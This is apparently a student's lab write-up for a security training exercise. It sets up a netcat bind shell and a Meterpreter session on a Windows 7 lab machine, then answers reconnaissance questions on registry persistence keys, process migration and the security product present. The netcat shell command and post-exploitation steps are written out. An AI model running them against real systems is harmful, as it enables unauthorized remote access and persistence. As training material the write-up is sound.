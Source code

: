 # ICC Security - Exercise 04 - Security

- Log on to Win7 as user "cchestbridge".
- Open Administrator cmd prompt.
- Execute following command:
  - `nc -l -p 3978 -e cmd.exe`

![](images/2020-07-06-10-41-48.png)

- Setting up bind_tcp handler on Kali box (10.10.1.60)

![](images/2020-07-06-10-44-49.png)

![](images/2020-07-06-10-53-41.png)

![](images/2020-07-06-10-56-33.png)

![](images/2020-07-06-10-57-53.png)

- Meterpreter session upgrade did not work. Error message presented on Win7 machine:

![](images/2020-07-06-10-59-25.png)

- Kill the job started to handle the reverse connection from meterpreter session.
- Try to upgrade the shell session again.

![](images/2020-07-06-11-01-15.png)

![](images/2020-07-06-11-01-40.png)

![](images/2020-07-06-11-01-53.png)

## Q1

Document the full path of the four most common registry keys/values used to provide application persistence.

```
HKLM\Software\Microsoft\Windows\Currentversion\Run

HKLM\Software\Microsoft\Windows\Currentversion\RunOnce

HKCU\Software\Microsoft\Windows\Currentversion\Run

HKCU\Software\Microsoft\Windows\Currentversion\RunOnce
```

## Q2

What is the date and time on the target?

```
Sun 07/05/2020
09:07 PM
```

![](images/2020-07-06-11-08-39.png)

## Q3

Identify and document the name of the target machine.

```
EX-WIN7
```

![](images/2020-07-06-11-09-16.png)

## Q4

Identify and document the operating system and service pack (if any).

```
Windows 7 (Build 7601, Service Pack 1)
```

## Q5

SYSTEM is the authority/account that is running.

```
False

> The session is running as the account used to run the original nc command on the Win7 machine.
```

## Q6

What PID and process is Meterpreter injected into?

![](images/2020-07-06-11-11-59.png)

![](images/2020-07-06-11-12-25.png)

```
PID 3216 (YAkQK.exe)
```

---

## Privilege Escalation

Check current privilege in meterpreter session with:
`run post/windows/gather/win_privs`

![](images/2020-07-06-11-14-50.png)

![](images/2020-07-06-11-15-26.png)

Migrate to another less obvious SYSTEM process:

![](images/2020-07-06-11-16-46.png)

![](images/2020-07-06-11-17-01.png)

---

## Q7

Identify and document the suspect's account name.

```
cchestbridge
```

![](images/2020-07-06-11-19-36.png)

## Q8

What is the IP address of the target?

```
10.10.1.30
```

![](images/2020-07-06-11-20-17.png)

## Q9

Identify the Meterpreter reverse shell process.

```
PID 3216 (YAkQK.exe)
```

![](images/2020-07-06-11-21-25.png)

## Q10

What security product is present?

```
MS Security Essentials
```

- Looking at process list does not indicate individual process tied to a particular security product.
- Looking at services running in each process, there is an instance of svchost.exe (PID 2632) running the "WinDefend" service, which is part of MS Security Essentials.

![](images/2020-07-06-11-30-43.png)

## Q11

What is the name of the executable associated with the security product?

```
svchost.exe
```

![](images/2020-07-06-11-33-09.png)

## Q12

What is the display name of the security product?

```
Windows Defender
```

## Q13

Document the full directory path from which the security product is running.

```
C:\Windows\System32
```

## Q14

The only established network connections originate from the current operation.

```
True

> Only two ESTABLISHED network connections exist, relating to the two sessions with the target box (nc.exe - cmd shell, and YAkQK.exe - meterpreter reverse shell).
```

![](images/2020-07-06-11-37-04.png)

---

![](images/2020-07-06-11-38-47.png)

---
